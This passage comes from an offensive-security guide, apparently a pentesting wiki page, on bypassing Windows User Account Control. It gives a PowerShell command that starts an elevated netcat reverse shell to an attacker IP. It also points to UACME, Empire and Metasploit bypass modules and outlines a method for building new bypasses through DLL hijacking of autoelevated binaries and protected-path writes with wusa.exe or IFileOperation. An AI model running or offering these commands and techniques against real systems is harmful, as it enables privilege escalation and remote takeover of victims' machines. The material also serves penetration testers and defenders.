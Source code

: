 #### UAC disabled

If UAC is already disabled \(**`ConsentPromptBehaviorAdmin`**is **`0`**\) you can **execute a reverse shell with admin privileges** \(high integrity level\) using something like:

```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### UAC bypass exploits

You could also use some tools to **bypass UAC like** [**UACME** ](https://github.com/hfiref0x/UACME)which is a **compilation** of several UAC bypass exploits. Note that you will need to **compile UACME using visual studio or msbuild**. The compilation will create several executables \(like_Source\Akagi\outout\x64\Debug\Akagi.exe_\) , you will need to know **which one you need.**  
You should **be careful** because some bypasses will **prompt some other programs** that will **alert** the **user** that something is happening.

**Empire** and **Metasploit** also have several modules to **bypass** the **UAC**. 

#### More UAC bypass

**All** the techniques used here to bypass AUC **require** a **full interactive shell** with the victim \(a common nc.exe shell is not enough\).

You can get using a **meterpreter** session. Migrate to a **process** that has the **Session** value equals to **1**:

![](../.gitbook/assets/image%20%2849%29.png)

\(_explorer.exe_ should works\)

### Your own bypass - Basic UAC bypass methodology

If you take a look to **UACME** you will note that **most UAC bypasses abuse a Dll Hijacking vulnerabilit**y \(mainly writing the malicious dll on _C:\Windows\System32_\). [Read this to learn how to find a Dll Hijacking vulnerability](windows-local-privilege-escalation/dll-hijacking.md).

1. Find a binary that will **autoelevate** \(check that when it is executed it runs in a high integrity level\).
2. With procmon find "**NAME NOT FOUND**" events that can be vulnerable to **DLL Hijacking**.
3. You probably will need to **write** the DLL inside some **protected paths** \(like C:\Windows\System32\) were you don't have writing permissions. You can bypass this using:
   1. **wusa.exe**: Windows 7,8 and 8.1. It allows to extract the content of a CAB file inside protected paths \(because this tool is executed from a high integrity level\).
   2. **IFileOperation**: Windows 10.
4. Prepare a **script** to copy your DLL inside the protected path and execute the vulnerable and autoelevated binary.

#### Another UAC bypass technique

Consists on watching if an **autoElevated binary** tries to **read** from the **registry** the **name/path** of a **binary** or **command** to be **executed** \(this is more interesting if the binary searches this information inside the **HKCU**\).
